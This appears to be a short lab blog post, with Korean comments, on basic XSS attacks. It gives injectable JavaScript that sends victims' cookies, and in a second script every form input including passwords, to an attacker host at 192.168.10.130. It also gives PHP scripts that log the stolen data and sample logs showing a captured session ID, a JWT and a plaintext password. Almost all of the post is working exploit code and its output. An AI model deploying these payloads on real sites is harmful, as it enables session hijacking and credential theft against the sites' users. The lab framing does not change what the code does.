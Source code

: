 ```yaml
---
layout: post
title: XSS Basic
description: About the XSS
date: 2024-11-13 02:35:00 +0900
categories: [Technical Labs]
tags: [XSS]
pin: false
math: false
mermaid: false
image:
  path: commons/xss/title.webp
---
```

<!-- categories: [Technical Concepts Summarized, Technical Labs, Technical Terms, Useful Apps To Help With Technology] -->

## Overview
XSS을 이용한 기본적인 Session hijacking과 Form action hijacking을 구현해보고자 한다.

### Session Hijacking
JS code to inject into your website
```javascript
var cookieData = document.cookie; // 사용자의 쿠키를 가져온다.
var attackURL = "http://192.168.10.130/xss.php?cookie="; // xxx.php파일로 쿠키를 전달할 URL.
new Image().src = attackURL + cookieData; // 이미지의 경로로 URL을 전달하여 해당 URL를 실행시킨다.
```

Server code to receive the session
```php
$logFile = 'xss.log';
if (isset($_GET['cookie'])) {
    $cookieData = isset($_GET['cookie']) ? $_GET['cookie'] : 'No cookie';
    
    if (isset($_GET['cookie'])) {
        $logData = "[" . date('Y-m-d H:i:s') . "] Cookie: " . $cookieData . "\n";
    }
    file_put_contents($logFile, $logData, FILE_APPEND);
}
```

Saved files
```
[2024-11-12 09:53:02] Cookie: PHPSESSID=8l7socimgt2ef7ra8bbmhdn26f; jwt_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiMTUiLCJlbWFpbCI6IndoZ0BnbWFpbC5jb20iLCJleHAiOjE3MzE0Mzg0MDF9.IS8LaGsne0apR3JBms1chsH5UNYp6viKYts7ggPNNR8
```

<br>

### Form Action Hijacking
JS code to inject into your website
```javascript
document.addEventListener('DOMContentLoaded', function() { // 컨텐츠가 모두 로딩된 후 실행
  var form = document.querySelector('form');
  
  form.addEventListener('submit', function(event) { // 모든 form의 submit이 클릭될 때 실행
    // 모든 input 요소의 값을 수집합니다.
    var inputs = document.querySelectorAll('input');
    var data = [];

    inputs.forEach(function(input) {
        var id = input.id ? "id='" + input.id + "'" : "";
        var name = input.name ? "name='" + input.name + "'" : "";
        var value = input.value ? "value='" + encodeURIComponent(input.value) + "'" : "value='empty'";

        // id, name, value를 모두 포함한 데이터를 추가합니다.
        var combined = [id, name, value].filter(Boolean).join(", ");
        data.push(combined);
    });

    // 모든 입력 데이터를 연결하여 공격자 서버로 전송
    var attackURL = "http://192.168.10.130/xss.php?data=" + encodeURIComponent(data.join("; "));
    new Image().src = attackURL;
  });
});
```
- 모든 form의 모든 input을 로깅합니다.
- 공격자의 입장에서 저장된 값을 쉽게 파악할 수 있도록 input의 id와 name의 vaule를 함께 기록합니다.

Server code to receive the session
```php
$logFile = 'xss.log';
if (!empty($_GET)) {
  $logData = "[" . date('Y-m-d H:i:s') . "]\n";

  foreach ($_GET as $key => $value) {
      // 각 입력 필드의 키와 값을 로그에 저장
      $logData .= $key . " = " . $value . "\n";
  }

  $logData .= "---------------------------\n";

  // 로그 파일에 데이터 기록
  file_put_contents($logFile, $logData, FILE_APPEND);
}
?>
```

Saved files
```
data = id='id_email', name='email', value='whg%40gmail.com'; id='id_password', name='password', value='1234';
```
